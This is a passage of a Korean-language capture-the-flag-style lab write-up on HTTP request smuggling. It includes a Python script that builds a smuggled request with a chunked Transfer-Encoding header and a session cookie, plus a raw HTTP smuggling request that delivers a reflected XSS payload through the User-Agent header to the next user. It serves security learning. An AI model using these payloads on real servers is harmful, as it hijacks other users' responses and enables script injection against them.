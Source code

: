 ``` python
first_request_header += b'Cookie: session=AGCd8ZxgfKGUA6th5RrmtM0AaZMeI6MI\r\n'
first_request_header += b'Transfer-Encoding: chunked\r\n'


smuggle_request = first_request_header + b'\r\n' + first_request_body + second_request

data = send_payload(smuggle_request)

print (f'{"[*] REQUEST":^10}')
print (smuggle_request.decode())
print ("{:^10}".format("[*] RESPONSE"))
print (data.decode())
```



![image](https://user-images.githubusercontent.com/51329156/98478034-145cb680-223a-11eb-8e02-c4e1bf3ac6b5.png)

BOT이 어떤 주기로 요청을 보내는지 몰라서 고생했습니다..

### 😎 Using HTTP request smuggling to exploit reflected XSS

**HTTP request smuggling**에 취약하고 **reflected XSS**가 가능한 어플리케이션이 있으면, 다른 사용자를 공격할 때 **HTTP request smuggling**을 사용할 수 있습니다. 이런 공격방식은 그냥 **reflected XSS**만 사용하는 것보다 효과가 훨씬 강력합니다 :

- 사용자와 상호작용하는 게 필요 없습니다. 사용자에게 URL을 주고 방문할 때까지 기다릴 필요없이, XSS 페이로드를 담고 있는 요청과 다음 사용자의 정상적인 요청을 smuggle 하면 됩니다.
-  HTTP 요청 헤더같이 **reflected XSS**를 수행할 때 통제할 수 없는 지점까지 사용해서 XSS를 일으킬 수 있습니다.

예를 들어, `User-Agent` 헤더에 **reflected-XSS** 취약점이 있는 어플리케이션을 가정해봅시다. 그러면 request smuggling를 사용해 익스플로잇할 수 있습니다 :

``` http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 63
Transfer-Encoding: chunked

0

GET / HTTP/1.1
User-Agent: <script>alert(1)</script>
Foo: X
```

다음 사용자의 요청은 smuggle된 요청에 붙어서, XSS 페이로드가 포함된 응답을 받게 됩니다.

**Lab: Exploiting HTTP request smuggling to deliver reflected XSS**

**LAB Description**

Front-end, Back-end 서버로 이루어져있고 Front-end 서버는 chunked encoding을 지원하지 않습니다. 

`User-Agent` 헤더를 통한 **reflected XSS** 에 취약하고, 이 랩을 풀려면 다른 사용자가 `alert(1)`을 실행시키게 하면 됩니다.

**PAYLOAD :**

